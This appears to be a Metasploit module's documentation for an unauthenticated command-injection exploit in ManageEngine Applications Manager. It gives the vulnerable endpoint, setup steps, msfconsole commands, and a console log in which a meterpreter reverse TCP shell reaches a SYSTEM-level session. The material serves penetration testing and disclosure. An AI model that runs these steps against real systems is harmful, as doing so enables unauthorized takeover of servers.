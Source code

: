 ## Vulnerable Application
This module exploits command injection vulnerability in the ManageEngine Applications Manager product. An unauthenticated user can execute a operating system command under the context of privileged user. Publicly accessible testCredential.do endpoint takes multiple user inputs and validates supplied credentials by accessing given system. This endpoint calls a several internal classes and then executes powershell script without validating user supplied parameter when the given system is OfficeSharePointServer.

**Vulnerable Application Installation Steps**

Go to following website and download Windows version of the product. It comes with built-in Java and Postgresql so you don't need to install anything else.
[https://www.manageengine.com/products/applications_manager/download.html](https://www.manageengine.com/products/applications_manager/download.html)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/manageengine_appmanager_exec`
- [ ] Set `RHOST <RHOST>`
- [ ] Set `PAYLOAD windows/meterpreter/reverse_tcp`
- [ ] Set `LHOST <LHOST>`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target is vulnerable.` in console.
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Triggering the vulnerability` in console.
- [ ] **Verify** that you are seeing `Sending stage to <TARGET>` in console.
- [ ] **Verify** that you have your shell.

## Scenarios

```
msf5 > 
msf5 > use exploit/windows/http/manageengine_appmanager_exec 
msf5 exploit(windows/http/manageengine_appmanager_exec) > set RHOST 12.0.0.192
RHOST => 12.0.0.192
msf5 exploit(windows/http/manageengine_appmanager_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/manageengine_appmanager_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(windows/http/manageengine_appmanager_exec) > check
[+] 12.0.0.192:9090 The target is vulnerable.
msf5 exploit(windows/http/manageengine_appmanager_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Trigerring the vulnerability
[*] Sending stage (179779 bytes) to 12.0.0.192

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```